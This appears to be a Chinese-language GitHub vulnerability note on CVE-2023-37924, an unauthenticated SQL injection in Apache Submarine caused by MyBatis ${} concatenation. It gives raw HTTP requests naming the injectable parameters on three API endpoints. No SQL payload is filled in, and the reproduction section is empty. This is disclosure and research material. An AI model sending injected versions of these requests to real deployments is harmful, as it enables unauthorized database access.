

## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，并写法不规范，${}造成sql注入漏洞



## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现


